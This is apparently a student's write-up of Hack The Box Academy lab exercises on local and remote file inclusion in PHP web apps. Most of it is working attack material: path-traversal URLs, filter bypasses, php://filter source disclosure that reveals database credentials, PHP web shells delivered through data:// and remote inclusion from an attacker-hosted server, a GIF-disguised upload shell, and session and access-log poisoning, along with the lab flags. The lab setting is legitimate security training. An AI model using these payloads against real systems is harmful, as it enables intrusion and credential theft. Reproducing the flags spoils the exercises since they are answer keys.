







# CPTS labs - 19 File inclusion

## [File Inclusion](https://academy.hackthebox.com/module/details/23)

### File Disclosure

**Using the file inclusion find the name of a user on the system that starts with "b".**

```
# Access the webapp and craft the url to:
http://94.237.59.180:37333/index.php?language=../../../../etc/passwd

# You will see the user barry
```

Results: barry

 Submit the contents of the flag.txt file located in the /usr/share/flags directory.
 
```
# Access the webapp and craft the url to:
http://94.237.59.180:37333/index.php?language=../../../..//usr/share/flags/flag.txt
```

Results: HTB{n3v3r_tru$t_u$3r_!nput} 


 **The above web application employs more than one filter to avoid LFI exploitation. Try to bypass these filters to read /flag.txt**


```
http://94.237.56.125:54223/index.php?language=languages/....//....//....//....//flag.txt
```

Results:  `HTB{64$!c_f!lt3r$_w0nt_$t0p_lf!}`


**Fuzz the web application for other php scripts, and then read one of the configuration files and submit the database password as the answer**

```
ffuf -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-small.txt:FUZZ -u http://94.237.54.116:34705/FUZZ.php

http://94.237.54.116:34705/index.php?language=php://filter/read=convert.base64-encode/resource=configure

# Now we decode the output:
echo -n "PD9waHAKCmlmICgkX1NFUlZFUlsnUkVRVUVTVF9NRVRIT0QnXSA9PSAnR0VUJyAmJiByZWFscGF0aChfX0ZJTEVfXykgPT0gcmVhbHBhdGgoJF9TRVJWRVJbJ1NDUklQVF9GSUxFTkFNRSddKSkgewogIGhlYWRlcignSFRUUC8xLjAgNDAzIEZvcmJpZGRlbicsIFRSVUUsIDQwMyk7CiAgZGllKGhlYWRlcignbG9jYXRpb246IC9pbmRleC5waHAnKSk7Cn0KCiRjb25maWcgPSBhcnJheSgKICAnREJfSE9TVCcgPT4gJ2RiLmlubGFuZWZyZWlnaHQubG9jYWwnLAogICdEQl9VU0VSTkFNRScgPT4gJ3Jvb3QnLAogICdEQl9QQVNTV09SRCcgPT4gJ0hUQntuM3Yzcl8kdDByM19wbDQhbnQzeHRfY3IzZCR9JywKICAnREJfREFUQUJBU0UnID0+ICdibG9nZGInCik7CgokQVBJX0tFWSA9ICJBd2V3MjQyR0RzaHJmNDYrMzUvayI7" | base64 -d
```

Output:

```php
<?php

if ($_SERVER['REQUEST_METHOD'] == 'GET' && realpath(__FILE__) == realpath($_SERVER['SCRIPT_FILENAME'])) {
  header('HTTP/1.0 403 Forbidden', TRUE, 403);
  die(header('location: /index.php'));
}

$config = array(
  'DB_HOST' => 'db.inlanefreight.local',
  'DB_USERNAME' => 'root',
  'DB_PASSWORD' => 'HTB{n3v3r_$t0r3_pl4!nt3xt_cr3d$}',
  'DB_DATABASE' => 'blogdb'
);

$API_KEY = "Awew242GDshrf46+35/k"; 
```


Results:  `HTB{n3v3r_$t0r3_pl4!nt3xt_cr3d$}`


### Remote Code Execution

**Try to gain RCE using one of the PHP wrappers and read the flag at /**

```
http://94.237.54.42:31967/index.php?language=data://text/plain;base64,PD9waHAgc3lzdGVtKCRfR0VUWyJjbWQiXSk7ID8%2BCg%3D%3D&cmd=ls+/

http://94.237.54.42:31967/index.php?language=data://text/plain;base64,PD9waHAgc3lzdGVtKCRfR0VUWyJjbWQiXSk7ID8%2BCg%3D%3D&cmd=cat+/37809e2f8952f06139011994726d9ef1.txt
```

Results: `HTB{d!$46l3_r3m0t3_url_!nclud3}`


**Attack the target, gain command execution by exploiting the RFI vulnerability, and then look for the flag under one of the directories in /**

```
# In kali attacking machine:
echo '<?php system($_GET["cmd"]); ?>' > shell.php

# We will serve this shell from our attacking machine:
 sudo python3 -m http.server 444

# Now, from the vulnerable webapp
http://10.129.128.202/index.php?language=http://10.10.15.90:444/shell.php&cmd=id

# After browsing around:
http://10.129.128.202/index.php?language=http://10.10.15.90:444/shell.php&cmd=cat+/exercise/flag.txt

```

Results: 99a8fc05f033f2fc0cf9a6f9826f83f4


**Use any of the techniques covered in this section to gain RCE and read the flag at /**

```
# Crafting Malicious Image:
 echo 'GIF8<?php system($_GET["cmd"]); ?>' > shell.gif

# We identify where this file was uploaded: `/profile_images/shell.gif`

# And now we can trigger the remote code execution from the vulnerable endpoint within the app. After browsing around we can see that the flag is:
http://94.237.59.180:49225/index.php?language=./profile_images/shell.gif&cmd=cat+/2f40d853e2d4768d87da1c81772bae0a.txt
# Note. All the output is preceded by the `GIF8`string
```

Results: HTB{upl04d+lf!+3x3cut3=rc3}


**Use any of the techniques covered in this section to gain RCE, then submit the output of the following command: pwd**

**1.** Reading the log. I we have the following PHPSession cookie:

```
Cookie: PHPSession=giiat46h4vo3robfrnoet7neqf
```

Then, its location on disk would be:

```
# Linux
/var/lib/php/sessions/sess_giiat46h4vo3robfrnoet7neqf

# Windows
C:\Windows\Temp\sessions\sess_giiat46h4vo3robfrnoet7neqf
C:\Windows\Temp\sess_giiat46h4vo3robfrnoet7neqf
```

Now, from the endpoint vulnerable to LFI, we can read the log for our session:

```
http://94.237.54.42:37338/index.php?language=/var/lib/php/sessions/sess_giiat46h4vo3robfrnoet7neqf
```

Screenshot:




We can write the logs with the language parameter. 

**2.** Write the logs with the following malicious payload:

```
http://<SERVER_IP>:<PORT>/index.php?language=%3C%3Fphp%20system%28%24_GET%5B%22cmd%22%5D%29%3B%3F%3E
```

whereas the payload is url encoded:

```
<?phpsystem($_GET["cmd"]);?>
```

**3.** Execute the shell:

```
http://94.237.54.42:37338/index.php?language=/var/lib/php/sessions/sess_giiat46h4vo3robfrnoet7neqf&cmd=ls
```



Executing the shell requires writing the shell into the log every time (step 2).


Results:

 **Try to use a different technique to gain RCE and read the flag at /**
 
**1.** As we have located a LFI vulnerability, we can read the `access.log` file:

```
http://94.237.54.42:37338/index.php?language=/var/log/apache2/access.log
```

The log contains the remote IP address, request page, response code, and the User-Agent header.


**2.** The User-Agent header is controlled by us through the HTTP request headers, so we should be able to poison this value. We can do it with Burpsuite or via curl:

```shell-session
curl -s "http://94.237.54.42:37338/index.php" -A "<?php system($_GET['cmd']); ?>"
```

**3**. Executing the payload:

```
GET /index.php?language=/var/log/apache2/access.log&cmd=ls+/ HTTP/1.1
Host: 94.237.54.42:37338
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Connection: keep-alive
Cookie: uid=96; PHPSESSID=giiat46h4vo3robfrnoet7neqf
Upgrade-Insecure-Requests: 1

```


```html
GET /index.php?language=/var/log/apache2/access.log&cmd=cat+/c85ee5082f4c723ace6c0796e3a3db09.txt HTTP/1.1
Host: 94.237.54.42:37338
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Connection: keep-alive
Cookie: uid=96; PHPSESSID=giiat46h4vo3robfrnoet7neqf
Upgrade-Insecure-Requests: 1
```

Results: HTB{1095_5#0u1d_n3v3r_63_3xp053d}


### Automation and Prevention


 **Fuzz the web application for exposed parameters, then try to exploit it with one of the LFI wordlists to read /flag.txt**

**1.** We will first locate a vulnerable parameter fuzzing with ffuf:

```
ffuf -w /usr/share/seclists/Discovery/Web-Content/burp-parameter-names.txt:FUZZ -u 'http://94.237.59.180:38511/index.php?FUZZ=value' -fs 2309 
```

Output: 

```
view                    [Status: 200, Size: 1935, Words: 515, Lines: 56, Duration: 50ms]
```

**2.** Now we will determine the webroot server:


```
ffuf -w /usr/share/seclists/Discovery/Web-Content/default-web-root-directory-linux.txt:FUZZ -u 'http://94.237.59.180:38511/index.php?view=../../../../FUZZ/index.php' -fs 2309
```

Output:

```

srv/www/html/           [Status: 200, Size: 1935, Words: 515, Lines: 56, Duration: 37ms]
home/httpd/             [Status: 200, Size: 1935, Words: 515, Lines: 56, Duration: 37ms]
home/$USER/public_html/ [Status: 200, Size: 1935, Words: 515, Lines: 56, Duration: 37ms]
home/$USER/www/         [Status: 200, Size: 1935, Words: 515, Lines: 56, Duration: 37ms]
var/www/public/         [Status: 200, Size: 1935, Words: 515, Lines: 56, Duration: 37ms]
home/www/               [Status: 200, Size: 1935, Words: 515, Lines: 56, Duration: 37ms]
var/www/sites/          [Status: 200, Size: 1935, Words: 515, Lines: 56, Duration: 38ms]
var/www/                [Status: 200, Size: 1935, Words: 515, Lines: 56, Duration: 37ms]
var/www/public_html/    [Status: 200, Size: 1935, Words: 515, Lines: 56, Duration: 37ms]
var/www/html/default/   [Status: 200, Size: 1935, Words: 515, Lines: 56, Duration: 38ms]
srv/www/                [Status: 200, Size: 1935, Words: 515, Lines: 56, Duration: 345ms]
var/www/html/           [Status: 200, Size: 1935, Words: 515, Lines: 56, Duration: 1369ms]
srv/www/sites/          [Status: 200, Size: 1935, Words: 515, Lines: 56, Duration: 1369ms]
```

Enumerate potential files

```
ffuf -w /usr/share/seclists/Fuzzing/LFI/LFI-Jhaddix.txt:FUZZ -u 'http://94.237.59.180:38511/index.php?view=../../../../FUZZ' -fs 1935

```

Output:

```
../../../../../../../../../../../../../../../../../../../../../etc/passwd [Status: 200, Size: 3309, Words: 526, Lines: 82, Duration: 35ms]
../../../../../../../../../../../../../../etc/passwd [Status: 200, Size: 3309, Words: 526, Lines: 82, Duration: 36ms]
../../../../../../../../../../../../../../../../../../../etc/passwd [Status: 200, Size: 3309, Words: 526, Lines: 82, Duration: 35ms]
../../../../../../../../../../../../../../../../../etc/passwd [Status: 200, Size: 3309, Words: 526, Lines: 82, Duration: 40ms]
../../../../../../../../../../../../../../../etc/passwd [Status: 200, Size: 3309, Words: 526, Lines: 82, Duration: 40ms]
../../../../../../../../../../../../../../../../../../etc/passwd [Status: 200, Size: 3309, Words: 526, Lines: 82, Duration: 41ms]
../../../../../../../../../../../../../../../../../../../../etc/passwd [Status: 200, Size: 3309, Words: 526, Lines: 82, Duration: 35ms]
../../../../../../../../../../../../../../../../../../../../../../etc/passwd [Status: 200, Size: 3309, Words: 526, Lines: 82, Duration: 35ms]
../../../../../../../../../../../../../../../../etc/passwd [Status: 200, Size: 3309, Words: 526, Lines: 82, Duration: 40ms]
../../../../../../../../../../../../../etc/passwd [Status: 200, Size: 3309, Words: 526, Lines: 82, Duration: 40ms]
```


Print the flag.txt

```
http://94.237.59.180:38511/index.php?view=../../../../../../../../../../../../../../../../../../../../../../../../../flag.txt
```

Results: HTB{4u70m47!0n_f!nd5_#!dd3n_93m5}


**What is the full path to the php.ini file for Apache?**

```
ssh htb-student@$ip
find / -name *php.ini 2>/dev/null
```

Results: /etc/php/7.4/apache2/php.ini

**Edit the php.ini file to block system(), then try to execute PHP Code that uses system. Read the /var/log/apache2/error.log file and fill in the blank: system() has been disabled for ______ reasons.**

```
ssh htb-student@$ip
sudo su
nano /etc/php/7.4/apache2/php.ini

# Locate the disable_functions Directive: Search for the line that starts with disable_functions (if it exists). 
# Edit the disable_functions Directive
disable_functions = system


```

Results: security


### Skills Assessment

**Assess the web application and use a variety of techniques to gain remote code execution and find a flag in the / root directory of the file system. Submit the contents of the flag as your answer.**

```
# After fuzzing a little, we find the following exploitable parameter. 
http://83.136.250.116:48690/index.php?page=about

# The payload allows us to read php files with a php wrapper base64 encoded:
http://83.136.250.116:48690/index.php?page=php://filter/read=convert.base64-encode/resource=index
```

See the screenshot below:



After decoding it we can read the source code for the index.php page and notice a commented line with the following path within the application:

```
/ilf_admin/index.php
```

This opens an entire new world: 



whereas we can basically read any file of the application by tampering the parameter `log`:



This way, we get access to the `/var/log/nginx/access.log` file and realize that we can write into it by using the `User-agent` header request. For example, this request:



... then can be executed:

```HTML
GET /ilf_admin/index.php?log=../../../../../../var/log/nginx/access.logfile&cmd=ls+/ HTTP/1.1
Host: 83.136.250.116:48690
User-Agent: <?php system($_GET['cmd']); ?>
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Connection: keep-alive
Upgrade-Insecure-Requests: 1
```



Printing the flag.txt file:

```
http://83.136.250.116:48690/ilf_admin/index.php?log=../../../../../../var/log/nginx/access.log?cmd=cat+flag_dacc60f2348d.txt
```

Results: a9a892dbc9faf9a014f58e007721835e
